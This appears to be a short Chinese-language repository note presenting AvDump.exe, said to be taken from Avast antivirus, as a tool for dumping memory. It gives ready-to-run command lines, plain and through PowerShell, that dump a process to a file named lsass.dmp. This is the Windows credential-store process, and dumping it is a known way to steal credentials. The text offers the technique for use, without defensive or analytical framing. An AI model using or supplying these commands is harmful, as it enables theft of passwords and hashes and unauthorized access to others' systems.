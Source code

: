 提取自Avast杀毒软件的AvDump.exe

注意：必须选择与目标系统对应的版本，否则无法成功dump。

使用方法：

```shell

avdump.exe --pid [PID] --exception_ptr 0 --thread_id 0 --dump_level 1 --dump_file D:\lsass.dmp

powershell -c ".\avdump.exe --pid [PID] --exception_ptr 0 --thread_id 0 --dump_level 1 --dump_file D:\lsass.dmp"

```